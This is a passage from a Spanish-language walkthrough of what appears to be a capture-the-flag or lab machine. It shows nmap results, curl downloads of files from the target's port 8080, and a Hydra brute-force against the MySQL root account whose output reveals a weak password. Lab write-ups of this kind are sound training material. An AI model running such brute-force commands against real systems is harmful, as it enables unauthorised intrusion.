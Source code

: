 ```
1   0.61 ms 192.168.195.148

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.18 seconds
```

### Puerto 8080

Aqui vemos que nos pinta unos archivos los cuales nos descargaremos con `curl`...

```shell
curl -o /var/tmp/da-vinci.jpg http://<IP>:8080/da-vinci.jpg

curl -o /var/tmp/index.php http://<IP>:8080/index.php 

curl -o /var/tmp/van.jpeg http://<IP>:8080/van.jpeg
```

Si miramos en la ubicacion donde estamos depositando los archivos...

```shell
ls -la /var/tmp/

#Info
drwxrwxrwt  8 root root 4096 jun  3 06:09 .
drwxr-xr-x 12 root root 4096 feb 27 06:28 ..
drwx------  3 root root 4096 jun  3 03:13 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-colord.service-d6J14A
drwx------  3 root root 4096 jun  3 03:12 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-haveged.service-tuIDEe
drwx------  3 root root 4096 jun  3 03:12 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-ModemManager.service-EI2Gp9
drwx------  3 root root 4096 jun  3 03:12 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-polkit.service-Hvcz8R
drwx------  3 root root 4096 jun  3 03:12 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-systemd-logind.service-LC8iqL
drwx------  3 root root 4096 jun  3 03:13 systemd-private-ece228d67dc349abbdfc2dd89e4e249a-upower.service-vH8FO7
-rw-r--r--  1 root root 848690 jun  3 05:50  da-vinci.jpg
-rw-r--r--  1 root root    257 jun  3 05:53  index.php
-rw-r--r--  1 root root  12611 jun  3 05:54  van.jpeg
```

Pero si lo empezamos a investigar no descubrimos mucho mas ni con `steghide`, `binwalk` y `file`...

### Hydra

```shell
hydra -l root -P <WORDLIST> mysql://<IP>/ -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-03 06:05:25
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.195.148:3306/
[3306][mysql] host: 192.168.195.148   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-03 06:05:29
```